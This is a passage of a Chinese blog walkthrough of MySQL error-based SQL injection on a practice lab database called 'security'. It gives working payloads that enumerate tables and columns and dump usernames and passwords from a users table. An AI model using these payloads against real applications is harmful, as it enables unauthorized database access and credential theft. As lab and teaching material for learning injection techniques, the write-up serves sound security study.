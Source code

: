 

<img src="https://i-blog.csdnimg.cn/blog_migrate/a1814cc93804c428d8f69543637a7f62.png" alt="" style="max-height:92px; box-sizing:content-box;" />


得到数据库<span style="color:#0d0016;">security</span>

#### 爆破表名

```csharp
1' and (select count(*)from information_schema.tables group by concat((select group_concat(table_name)from information_schema.tables where table_schema='security'),floor(rand(0)*2)))-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/4279829a3553cd849be0a460f5dcdccd.png" alt="" style="max-height:156px; box-sizing:content-box;" />


得到了表<span style="color:#0d0016;">emails,referers,uagents,users</span>

#### 爆破字段名

```csharp
1' and (select count(*)from information_schema.columns where table_schema=database() group by concat((select group_concat(column_name)from information_schema.columns where table_name='users'and table_schema=database()),floor(rand(0)*2)))-- +
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/02d09e71a0ee1b9812dae66e9a0cc41c.png" alt="" style="max-height:103px; box-sizing:content-box;" />


<span style="color:#0d0016;">得到字段名id,username,password1</span>

#### 爆破值

```csharp
1' and (select 1 from(select count(*),concat((select username from users limit 0,1),0x26,floor(rand(0)*2))x from information_schema.columns group by x)a) -- +

```



这里的写法不一样

```cobol
1' and (select 1 from(select count(*),concat((select group_concat(username)from users),floor(rand(0)*2))x from information_schema.columns group by x)a)-- +


1' and (select 1 from(select count(*),concat(substr((select group_concat(password)from users),52,120),floor(rand(0)*2))x from information_schema.columns group by x)a)-- +
```

是通过别名来实现 这里后面可以深入了解一下

 [MYSQL报错注入的一点总结 - 先知社区ll](https://xz.aliyun.com/t/253#toc-0) 

我们通过这个写法来写一遍注入
